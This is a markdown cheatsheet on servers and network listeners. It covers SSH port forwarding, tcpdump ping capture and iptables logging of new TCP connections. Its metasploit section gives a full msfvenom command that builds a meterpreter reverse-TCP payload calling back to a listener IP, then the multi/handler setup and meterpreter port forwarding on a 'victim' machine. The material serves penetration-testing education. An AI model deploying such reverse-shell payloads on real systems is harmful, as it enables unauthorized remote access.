 ```yaml
---
title: Servers & Network listeners
description: Cheatsheets to create servers & network listeners.
---
```


# Servers & Networks

## Port forwarding

The `example.com` machine has a web server running on port 8000 internally (not exposed to the internet). With the following command you can now access the web server from `http://localhost:4444`.

### Using SSH

```bash
ssh -L 4444:localhost:8000 user@example.com
```

### Using metasploit (meterpreter)

1. Generate the exploit with `msfvenom`.

```bash
$ msfvenom -p 'linux/x64/meterpreter_reverse_tcp' LHOST=10.132.0.2 LPORT=9001 -f elf > exploit.bin
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 1037272 bytes
Final size of elf file: 1037272 bytes

$ file exploit.bin
exploit.bin: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), static-pie linked, with debug_info, not stripped
```

2. Setup listener

```bash
$ msfconsole
...
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set LHOST ens4
LHOST => 10.132.0.2
msf6 exploit(multi/handler) > set LPORT 9001
LPORT => 9001
msf6 exploit(multi/handler) > set PAYLOAD linux/x64/meterpreter_reverse_tcp
PAYLOAD => linux/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.132.0.2:9001
[*] Meterpreter session 1 opened (10.132.0.2:9001 -> 10.154.0.2:45462 ) at 2021-10-19 19:27:31 +0000

meterpreter >
```

3. Do port forwarding

```
meterpreter > portfwd add -l 4444 -p 8000 -r 127.0.0.1
[*] Local TCP relay created: :4444 <-> 127.0.0.1:8000
meterpreter > portfwd list

Active Port Forwards
====================

   Index  Local           Remote        Direction
   -----  -----           ------        ---------
   1      127.0.0.1:8000  0.0.0.0:4444  Forward

1 total active port forwards.

meterpreter > portfwd delete -l 4444 -p 8000 -r 127.0.0.1
[*] Successfully stopped TCP relay on 0.0.0.0:4444
```

`-l` : Port on your local machine (attacker machine).
`-p` : Port on the remote machine (victim machine).
`-r` : Target host.

### Using chisel

- [Chisel](https://github.com/jpillora/chisel)

## Ping

Use `tcpdump` to listen for ping request and reply.

```bash
$ sudo tcpdump icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on wlp3s0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
18:53:25.737055 IP 192.168.117.150 > 192.168.117.58: ICMP echo request, id 1, seq 1, length 64
18:53:25.737224 IP 192.168.117.58 > 192.168.117.150: ICMP echo reply, id 1, seq 1, length 64
```

## TCP connections

Add `iptables` rule that listen for new TCP connections.

```bash
$ sudo iptables -A INPUT -p tcp -m state --state NEW -j LOG --log-prefix "New TCP connection: " -i wlp3s0
```

!!! info
    To remove the rule from `iptables`, execute the same commands but replace the `-A` with `-D`.

View the log :

```bash
$ journalctl -k --grep='New TCP connection: '
Sep 26 19:04:24 arch kernel: [NEW TCP connection] IN=wlp3s0 OUT= MAC=XX:XX:XX:XX:XX:XX:XX:XX:XX:XX:XX:XX:XX:XX SRC=192.168.117.150 DST=192.168.117.58 LEN=60 TOS=0x00 PREC=0x00 TTL=64 ID=25957
...
```


